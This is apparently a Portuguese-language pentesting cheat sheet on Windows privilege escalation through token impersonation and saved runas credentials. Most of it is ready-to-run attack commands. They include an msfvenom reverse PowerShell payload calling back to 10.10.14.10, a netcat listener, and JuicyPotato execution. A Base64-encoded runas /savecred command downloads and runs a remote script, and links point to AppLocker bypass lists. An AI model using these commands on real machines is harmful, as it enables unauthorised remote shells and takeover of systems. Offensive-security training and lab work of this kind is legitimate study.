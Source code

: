 ___

# Token Impersonation

- São chaves temporárias que permitem o acesso a máquina sem credencial
- Delegate Tokens -> Logar em máquinas ou RDP
- Impersonate -> Login não interativo, como um logon script
- Olhar sempre o `whoami /priv`, se tiver o `SeImpersonatePriviledge` ou `SeAssignPrimaryToken`, é um caminho para impersonar
- Outros privilégios perigosos: `SeBackupPrivilege, SeAssignPrimaryToken, SeLoadDriver, and SeDebug`
- Olhar o: [Payload All The Things - Priviledges](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Privilege%20Escalation.md#eop---impersonation-privileges) para ver quais privilégios são perigosos
- [Potatos](https://jlajara.gitlab.io/Potatoes_Windows_Privesc)

```
impacket-smbserver teste `pwd`

New-PSDrive -Name "name" -PSProvider "FileSystem" -Root "\\10.10.14.10\teste"

# Criando os shares

cd name:

msfvenom -p cmd/windows/reverse_powershell LHOST=10.10.14.10 LPORT=9494 > shell.bat

nc -nlvp 9494

./JuicyPotato.exe -t * -p shell.bat -l 4444

```

___

# Runass

- As vezes o Windows permit que usuários salvem as credenciais no sistema, assim da pra rodar o runas com essa credencial armazenada
- O Winpeas pega isso em `Currently Stored Credentials`

```
cmdkey /list
#Para coletar as creds armazenadas

runas /user:ACCESS\Administrator /savecred "Powershell -EncodedCommand SQBFAFgAKABOAGUAdwAtAE8AYgBqAGUAYwB0ACAATgBlAHQALgBXAGUAYgBDAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvADEAMAAuADEAMAAuADEANAAuADEAMAAvAHIAZQB2ADIALgBwAHMAMQAnACkA"
# Exemplo de execução
```

- [Bypass applocker list](https://github.com/api0cradle/UltimateAppLockerByPassList)
